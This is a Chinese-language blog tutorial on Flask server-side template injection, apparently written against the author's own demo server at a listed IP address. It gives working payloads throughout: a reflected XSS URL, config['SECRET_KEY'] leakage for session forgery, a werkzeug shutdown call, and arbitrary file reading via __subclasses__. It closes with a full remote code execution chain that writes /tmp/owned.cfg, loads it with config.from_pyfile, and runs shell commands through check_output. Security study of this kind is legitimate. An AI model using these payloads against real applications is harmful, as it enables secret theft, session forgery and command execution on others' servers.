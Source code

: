 ```yaml
---
layout: post
title: flask-ssti注入
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


[源代码地址](https://github.com/ZhangAiQiang/Flask/tree/master/flask-session%E8%BA%AB%E4%BB%BD%E4%BC%AA%E9%80%A0%E7%AE%80%E5%8D%95%E6%BA%90%E7%A0%81)  (请用python2.7运行，python3有点出入)
  
# **注入点:**     

![](https://i.imgur.com/BjpRspN.png)  

不是返回的静态模板而是反回模板字符串变得让客户端可以控制。  
  
# **XSS**   #
  
这里直接  
>     http://39.105.116.195:9000/<script>alert("惊了，github不对xss危险字符转义")</script>就会有反射性XSS    

<script>alert("惊了，github不对xss危险字符转义")</script>

flask对模板文件和模板文件中内容进行转义,可如果直接返回模板字符串或者直接返回字符串的话是不会转义的:  


  
![](https://i.imgur.com/AlrT7iT.png)  

只有xss1不会弹框，因为传到了静态文件里面，flask会自动进行转义。  

# **注入测试**   

http://39.105.116.195:9000/{{1+1}}  发现回传的是"/2"存在注入点。  

![](https://i.imgur.com/ls9zH4o.png) 

存在注入。  

# **config** #
 
flask的一个内置全局变量，保存着一些很隐私的信息。  

![](https://i.imgur.com/76P4EX0.png)  

比如SECRET_KEY，就可以session伪造用户。还有数据库连接的信息，就知道了数据库的密码。    

这个是个字典，也可以这样调用某个值
> http://39.105.116.195:9000/{{config['SECRET_KEY']}}  

# **request** 
类似于config，保存着一些信息。**request.environ**是一个字典，其中包含和服务器环境相关的对象  

![](https://i.imgur.com/domxsHz.png)  

>     http://39.105.116.195:9000/{{request.environ['werkzeug.server.shutdown']()}}这个会让服务器停止运行python，但是在gunicorn环境下中不会。  

# **config的from_object方法** #

{{ config.from_object('os') }}通过这个方法，config属性里面多了os(这是举个例子，其他的库自己也可以试试)库里面名字全是大写的属性和变量，而且是可以直接调用。  
  

# **几个重要的属性**  

![](https://i.imgur.com/AZFDkgb.png)  
运行结果  

![](https://i.imgur.com/qVopj2E.png)
  
# **任意文件读取** #
![](https://i.imgur.com/uApeB1u.png)  

>     ""根据__class__是个str类型，根据__mro__(或者__base__)找到object，再由__subclasses__找到object的所有子类，然后调用其中的file属性实现任意文件读取。  



# **远程代码执行利用from_pyfile** #

将一个文件的路径传进去然后编译，这样我们结合file的写功能就可以在指定的位置写文件，然后用from_pyfile编译。    

**写入指令print(1+1)**

![](https://i.imgur.com/wYQ0Skk.png)    
  
**pyfile来编译执行，返回TRUE执行成功。**


![](https://i.imgur.com/udhMvsj.png)  
 
## 还有一种是不用每次写文件，写一次，然后每次只传入命令就好。  

>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\rRUNCMD = check_output') }}   

参考[文章](http://www.anquan.us/static/drops/tips-13683.html)的时候,他是\n\r，可能是mac本，不管了，服务器一般用linux，\n\r写入回车就好了。还有一个需要注意的是，如果你是直接在浏览器上输入反斜杠的话会给你编码为/，所以会编译失败(因为没有回车)，url编码一下就好了%5cn%5cr  
    
>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output%5cn%5crRUNCMD = check_output') }},另外的话如果用burp抓包发送是不需要考虑编码的。

**编译**  

>     {{ config.from_pyfile('/tmp/owned.cfg') }}  

**命令执行:**
  
>     http://39.105.116.195:9000/{{ config['RUNCMD']('ls /',shell=True)}}  

  
![](https://i.imgur.com/i5R1Iod.png)